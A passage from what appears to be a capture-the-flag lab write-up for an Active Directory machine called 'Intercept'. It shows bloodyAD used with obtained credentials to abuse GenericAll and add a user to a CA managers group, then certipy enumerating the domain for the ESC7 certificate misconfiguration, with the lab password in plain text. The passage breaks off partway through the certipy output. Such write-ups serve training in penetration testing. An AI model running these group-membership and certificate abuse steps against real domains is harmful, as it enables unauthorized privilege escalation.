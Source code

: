 we got new creds for Simon.Bowen so lets check what he can do before jump next domain

andd booom we found our ways

## Certipy

![alt text](<../assets/images/Screenshot_2025-02-05_01_07_14.png>)

we can use GenericAll for add self on group do certipy

### GenericAll

    ➜  Intercept bloodyAD --host dc01.intercept.vl -d intercept.vl -u Simon.Bowen -p 'b0OI_fHO859+Aw' add groupMember "ca-managers" Simon.Bowen
    [+] Simon.Bowen added to ca-managers

and its ESC7

### ESC7


    ➜  Intercept certipy-ad find -username 'Simon.Bowen' -password 'b0OI_fHO859+Aw' -vulnerable -dc-ip 10.10.171.245 -stdout
    Certipy v4.8.2 - by Oliver Lyak (ly4k)

    [*] Finding certificate templates
    [*] Found 33 certificate templates
    [*] Finding certificate authorities
    [*] Found 1 certificate authority
    [*] Found 11 enabled certificate templates
    [*] Trying to get CA configuration for 'intercept-DC01-CA' via CSRA
    [*] Got CA configuration for 'intercept-DC01-CA'
    [*] Enumeration output:
    Certificate Authorities
    0
        CA Name                             : intercept-DC01-CA
        DNS Name                            : DC01.intercept.vl
        Certificate Subject                 : CN=intercept-DC01-CA, DC=intercept, DC=vl
        Certificate Serial Number           : 202A1648C819CFBA4A76C347C87270F4
        Certificate Validity Start          : 2023-06-27 13:24:59+00:00
        Certificate Validity End            : 2125-02-05 05:06:21+00:00